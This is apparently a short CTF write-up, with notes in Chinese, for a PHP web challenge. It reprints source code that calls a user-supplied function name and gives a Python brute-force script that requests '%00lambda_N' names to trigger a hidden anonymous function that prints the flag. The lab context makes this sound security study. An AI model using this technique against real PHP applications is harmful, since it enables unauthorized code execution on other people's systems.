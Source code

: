 ![](<./img/Pasted image 20230226131534.png>)

```php
<?php

$MY = create_function("","die(`cat flag.php`);");
$hash = bin2hex(openssl_random_pseudo_bytes(32));
eval("function SUCTF_$hash(){"
    ."global \$MY;"
    ."\$MY();"
    ."}");
if(isset($_GET['func_name'])){
    $_GET["func_name"]();
    die();
}
show_source(__FILE__); 
```

创建了一个匿名函数，匿名函数以`<NUL>lambda_<num>`命名，直接爆破

```python
import requests

url = 'http://6a737906-4926-47a2-8b0e-8b51cac68f8e.node4.buuoj.cn:81/?func_name=%00lambda_{}'

for i in range(10000):
    response = requests.get(url.format(i))
    print("{}: {}".format(i, response.status_code))
    if response.status_code == 200:
        print(response.text)
        break
```

![](<./img/Pasted image 20230226134442.png>)

#Web #PHP #lambda
